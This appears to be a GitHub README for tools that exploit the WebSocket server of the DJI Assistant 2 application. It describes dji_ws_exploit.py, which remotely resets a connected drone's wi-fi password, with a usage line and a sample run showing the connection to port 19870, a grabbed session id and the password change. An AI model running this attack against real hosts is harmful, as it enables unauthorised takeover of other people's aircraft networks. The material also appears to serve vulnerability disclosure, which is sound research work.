## DJI WebSocket interface exploitation

Tools for working with the websocket server launched by DJI Assistant 2 application.

### dji_wsdump.py

[wsdump.py](https://pypi.python.org/pypi/websocket-client) tool from websocket-client package, modified to encrypt/decrypt
data in communications with DJI Assistant 2 websocket server.

### dji_ws_exploit.py

A tool to modify an aircraft wi-fi network password remotely while it is connected through USB to a remote host.

```
Usage: dji_ws_exploit.py [-h] target password
    target -  remote host which the aircraft's connected to
    password - new wi-fi network password
```

Example:

```
# python dji_ws_exploit.py 192.168.17.7 1q2w3e
[*] Connecting to ws://192.168.17.7:19870/general
[*] Determined encryption: enabled
[*] Grabbed id value: 1d9776fab950ed3f441909deafe56b1226ca5889
[*] Connecting to ws://192.168.17.7:19870/controller/wifi/1d9776fab950ed3f441909deafe56b1226ca5889
[*] Setting new password for wi-fi network
[*] Rebooting wi-fi
[!] Success
```
